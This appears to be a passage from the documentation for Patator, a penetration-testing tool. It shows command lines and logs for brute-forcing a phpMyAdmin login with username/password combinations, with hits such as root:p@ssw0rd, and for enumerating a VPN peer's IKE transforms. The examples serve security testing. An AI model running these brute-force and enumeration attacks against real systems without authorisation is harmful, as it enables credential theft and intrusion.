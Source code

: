 * HTTP : Brute-force phpMyAdmin logon

```
$ http_fuzz url=http://10.0.0.1/pma/index.php method=POST body='pma_username=COMBO00&pma_password=COMBO01&server=1&target=index.php&lang=en&token=' 0=combos.txt before_urls=http://10.0.0.1/pma/index.php accept_cookie=1 follow=1 -x ignore:fgrep='Cannot log in to the MySQL server' -l /tmp/qsdf
11:53:47 patator    INFO - Starting Patator v0.7-beta (http://code.google.com/p/patator/) at 2014-08-31 11:53 EST
11:53:47 patator    INFO -
11:53:47 patator    INFO - code size:clen       time | candidate                          |   num | mesg
11:53:47 patator    INFO - -----------------------------------------------------------------------------
11:53:48 patator    INFO - 200  49585:0        0.150 | root:p@ssw0rd                      |    26 | HTTP/1.1 200 OK
11:53:51 patator    INFO - 200  13215:0        0.351 | root:                              |    72 | HTTP/1.1 200 OK
^C
11:53:54 patator    INFO - Hits/Done/Skip/Fail/Size: 2/198/0/0/3000, Avg: 29 r/s, Time: 0h 0m 6s
11:53:54 patator    INFO - To resume execution, pass --resume 15,15,15,16,15,36,15,16,15,40
```

Payload #72 was a false positive due to an unexpected error message:

```
$ grep AllowNoPassword /tmp/qsdf/72_200\:13215\:0\:0.351.txt
... class="icon ic_s_error" /> Login without a password is forbidden by configuration (see AllowNoPassword)</div><noscript>
```

Tested against phpMyAdmin 4.2.7.1.

* IKE : Enumerate transforms supported by VPN peer

```
# ike_enum host=10.0.0.1 transform=MOD0 0=TRANS aggressive=RANGE1 1=int:0-1 -x ignore:fgrep='NO-PROPOSAL'
16:52:58 patator    INFO - Starting Patator v0.7-beta (https://github.com/lanjelot/patator) at 2015-04-05 16:52 AEST
16:52:58 patator    INFO -
16:52:58 patator    INFO - code  size    time | candidate                          |   num | mesg
16:52:58 patator    INFO - -----------------------------------------------------------------------------
16:53:03 patator    INFO - 0     70     0.034 | 5,1,1,2:0                          |  1539 | Handshake returned: Enc=3DES Hash=MD5 Group=2:modp1024 Auth=PSK (Main)
16:53:03 patator    INFO - 0     72     0.031 | 5,1,65001,2:0                      |  1579 | Handshake returned: Enc=3DES Hash=MD5 Group=2:modp1024 Auth=XAUTH (Main)
16:53:03 patator    INFO - 0     76     0.033 | 5,1,1,2:1                          |  1540 | Handshake returned: Enc=3DES Hash=MD5 Group=2:modp1024 Auth=PSK (Aggressive)
16:53:03 patator    INFO - 0     78     0.034 | 5,1,65001,2:1                      |  1580 | Handshake returned: Enc=3DES Hash=MD5 Group=2:modp1024 Auth=XAUTH (Aggressive)
16:53:06 patator    INFO - 0     84     0.034 | 7/128,2,1,2:0                      |  2371 | Handshake returned: Enc=AES KeyLength=128 Hash=SHA1 Group=2:modp1024 Auth=PSK (Main)
16:53:06 patator    INFO - 0     90     0.033 | 7/128,2,1,2:1                      |  2372 | Handshake returned: Enc=AES KeyLength=128 Hash=SHA1 Group=2:modp1024 Auth=PSK (Aggressive)
16:53:06 patator    INFO - 0     86     0.034 | 7/128,2,65001,2:0                  |  2411 | Handshake returned: Enc=AES KeyLength=128 Hash=SHA1 Group=2:modp1024 Auth=XAUTH (Main)
16:53:06 patator    INFO - 0     92     0.035 | 7/128,2,65001,2:1                  |  2412 | Handshake returned: Enc=AES KeyLength=128 Hash=SHA1 Group=2:modp1024 Auth=XAUTH (Aggressive)

+ 10.0.0.1:500 (Main Mode)
    Encryption       Hash         Auth      Group
    ---------- ----------   ---------- ----------
          3DES        MD5          PSK   modp1024
          3DES        MD5        XAUTH   modp1024
        AES128       SHA1          PSK   modp1024
        AES128       SHA1        XAUTH   modp1024
```